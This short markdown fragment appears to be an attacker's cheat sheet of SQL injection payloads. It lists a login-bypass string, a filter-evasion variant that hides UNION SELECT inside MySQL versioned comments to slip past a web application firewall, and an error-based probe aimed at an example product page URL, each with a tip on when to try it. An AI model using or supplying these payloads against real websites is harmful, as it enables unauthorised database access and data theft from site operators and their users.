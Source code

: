 # check 

- > if ``OR '1'='1'--`` not work try : 
  > 
  > ```
  > ' OR '1'='1' /*
  > ```
  >
  > if A WAF blocks typical SQL keywords ``(SELECT, UNION, OR)``.
  >
  > ```
  > 1' /*!UNION*/ SELECT 1,2--
  > ```
  >
  > most effective for error-based SQLi here ``https://example.com/product.php?id=5``
  >
  > ```
  > 5' AND (SELECT 1/0)--
  > ```

